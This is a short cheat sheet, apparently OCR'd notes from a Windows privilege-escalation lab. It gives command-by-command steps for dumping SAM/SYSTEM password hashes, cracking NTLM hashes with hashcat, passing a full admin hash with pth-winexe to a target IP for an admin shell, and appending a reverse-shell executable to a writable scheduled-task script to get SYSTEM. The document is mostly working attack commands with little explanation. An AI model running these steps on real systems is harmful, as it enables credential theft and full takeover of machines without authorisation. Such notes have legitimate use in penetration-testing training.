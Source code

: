 # run command within dumped creds
/home/kali/Shared/Opt-Tools/creddump7/pwdump.py SYSTEM SAM 


# Crack the admin NTLM hash using hashcat or hatecrack.py:
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt

## Passing the hash via winexe kali command

# You can use the cracked password to log in as the admin using winexe or RDP. Why crack a password hash when you can authenticate using the hash?

# Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. Remember the full hash includes both the LM and NTLM hash, separated by a colon:
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //10.10.11.43 cmd.exe

# now we have an admin shell!

## Priv escalation via scheduled tasks

# View the contents of the C:\DevTools\CleanUp.ps1 script:
type C:\DevTools\CleanUp.ps1

# The script seems to be running as SYSTEM every minute. Using accesschk.exe, note that you have the ability to write to this file:
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1

# Start a listener on Kali and then append a line to the C:\DevTools\CleanUp.ps1 which runs the reverse.exe executable you created:
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1

# Wait for the Scheduled Task to run, which should trigger the reverse shell as SYSTEM.
